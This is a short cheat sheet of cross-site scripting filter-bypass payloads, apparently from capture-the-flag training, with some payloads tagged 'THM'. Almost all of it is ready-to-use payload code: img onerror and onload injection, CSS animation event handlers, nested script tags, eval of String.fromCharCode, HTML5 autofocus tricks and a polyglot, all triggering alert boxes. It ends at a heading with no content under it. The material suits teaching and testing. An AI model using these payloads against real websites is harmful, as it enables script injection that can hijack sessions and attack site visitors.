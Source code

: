 **bypassing script tags or <> filters**

```javascript
<img src=x onerror=alert('Hello');>
```

```javascript
/images/img.jpg" onload="alert('XSS');
```

**bypassing filters for**

* script
* onerror
* onsubmit
* onload
* onmouseover
* onfocus
* onmouseout
* onkeypress
* onchange

```css
<style>@keyframes slidein {}</style><xss style="animation-duration:1s;animation-name:slidein;animation-iteration-count:2" onanimationiteration="alert('Hello')"></xss>
```

```javascript
<sscriptcript>alert('THM');</sscriptcript>
```

**bypassing words filters with HTML5**

```javascript
0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"

<img src=x onerror="eval(String.fromCharCode(97,108,101,114,116,40,39,72,101,108,108,111,39,41))";>

<object onerror=alert('Hello')>

<object onbeforescriptexecute=confirm(0)>

<img src='1' onerror\x0b=alert(0) />

<input autofocus onfocus=alert(1)>

<video/poster/onerror=alert(1)>

```

**Bypassing all filters with polyglots**

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```

**bypassing quotes filters with img tags and python**
